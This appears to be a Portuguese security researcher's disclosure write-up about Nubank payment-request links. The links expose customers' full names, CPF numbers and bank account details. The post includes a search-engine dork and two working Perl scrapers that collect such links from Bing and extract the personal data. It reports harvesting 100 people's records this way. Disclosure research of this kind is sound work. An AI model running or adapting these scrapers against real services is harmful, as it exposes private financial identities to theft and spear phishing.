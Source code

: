```yaml
---
layout: content
title: 'Um pequeno caso de scraping de dados pessoais expostos na web'
description: 'Durante a realização de testes em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Embora essa funcionalidade apresente utilidade prática, sua implementação pode estar suscetível a diversos cenários que demandam análise detalhada. Com o intuito de avaliar possíveis implicações, foram desenvolvidas provas de conceito e compartilhadas com a empresa para revisão do design da funcionalidade. A partir dessa análise, constatou-se a possibilidade de mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabela de conteúdo:
- [Resumo](#sumario)
- [Descrição](#descrição)
- [Prova de conceito](#prova-de-conceito)
- [Impacto](#impacto)
- [Conclusão](#conclusão)
- [Referências](#referencias)

### Sumário

Durante a realização de testes em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Embora essa funcionalidade apresente utilidade prática, sua implementação pode estar suscetível a diversos cenários que demandam análise detalhada. Com o intuito de avaliar possíveis implicações, foram desenvolvidas provas de conceito e compartilhadas com a empresa para revisão do design da funcionalidade. A partir dessa análise, constatou-se a possibilidade de mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.


**DISCLAIMER**: A empresa responsável foi informada sobre todos os detalhes dessa pesquisa no menor tempo possível e respondeu de maneira ética e transparente, demonstrando atenção e comprometimento com a segurança da funcionalidade. Durante os testes realizados, não houve invasão ou violação de sistemas. Além disso, a empresa implementou algumas medidas corretivas para reduzir potenciais riscos associados ao problema relatado. Recomendações adicionais foram fornecidas para mitigar a vulnerabilidade, porém a empresa optou por não implementá-las integralmente.

---

### Descrição

Dentro do aplicativo do Nubank, existe um recurso denominado "Cobrar". Seu funcionamente consiste em: 1) preencher um valor de sua escolha (se desejar) e 2) clique em confirmar 3) após isso, um QR Code é gerado, e você tem a opção de compartilhá-lo ou enviar a cobrança por meio de outro aplicativo, como o WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)


O conteúdo do QR Code é o mesmo link que pode ser compartilhado por aplicativos de mensangens. Quando o link é aberto no navegador, é obtido o seguinte resultado:

![](/images/publications/nubank-scraping/personal-infos.png)

São expostos, sem qualquer tipo de controle, alguns dados do usuário que gerou o link como: o nome completo, CPF, número da conta bancária e agência. O único requisito para obter essas informações sensíveis[1] é possuir essa URL.

A URL em questão é gerada exclusivamente pelo cliente em seu aplicativo, e também cabe ao cliente definir como e com quem compartilhar cada URL gerada.

Porém, essas URLs são indexadas por motores de busca, sendo possível realizar a utilizar de dorks[2] para identificar mais URLs relacionadas a esse serviço. 

Dork para restringir a busca ao site principal do Nubank, onde as urls contenham o padrão "/pagar/" e os retornos envolvendo o blog sejam excluídos:

```text
site:nubank.com.br inurl:/pagar/ -blog
````

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Além disso, observamos que alguns usuários estavam publicando essas URLs em outros canais, como o Twitter. Um uso comum da funcionalidade seria para receber doações.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prova de conceito

Para demonstrar o impacto do abuso dessa funcionalidade, uma prova de conceito foi criada. A primeira parte dessa PoC consiste na construção de um código capaz de usar um motor de busca para coletar o maior número possível de URLs. Foi desenvolvido, então, um scraper[3] utilizando o Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Com esse código, foram coletadas 100 URLs válidas - esse valor foi limitado em 100 pois o intuito era apenas uma demonstração, mas poderia ser superior:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Após a coleta das URLs em um arquivo .txt, foi desenvolvido outro scraper que para extrair os dados da página do Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

E então o resultado obtido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nome completo, número da conta e agência de 100 pessoas, em apenas alguns minutos e com poucas linhas de código.

---

### Impacto

A possibilidade de um atacante abusar dessa funcionalidade disponível nos sistemas da Nubank é alta devida a sua facildade de exploração. Podendo então expor  diversos usuários, vazando informações sensíveis como ilustrado anteriormente. Além disso, um atacante que tenha essas informações em mãos pode usá-las para desenvolver uma abordagem de engenharia social muito bem direcionada.

---

### Conclusão

Através dessa análise, é possível afirmar que uma agente malicioso poderia implementar diversos scrapers para mapear as URLs de cobrança do Nubank e, posteriormente, coletar as informações pessoais presentes nelas. Este artigo apresentou uma PoC como uma dessas implementações, utilizando um motor de busca, mas ainda há espaço para outros canais, como redes sociais (Twitter, Facebook e outras). Esses canais poderiam ser usados para levar essas pessoas a cenários de exposição ou risco, como se tornarem vítimas de spear phishing/engenharia social.

---

### Referências

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)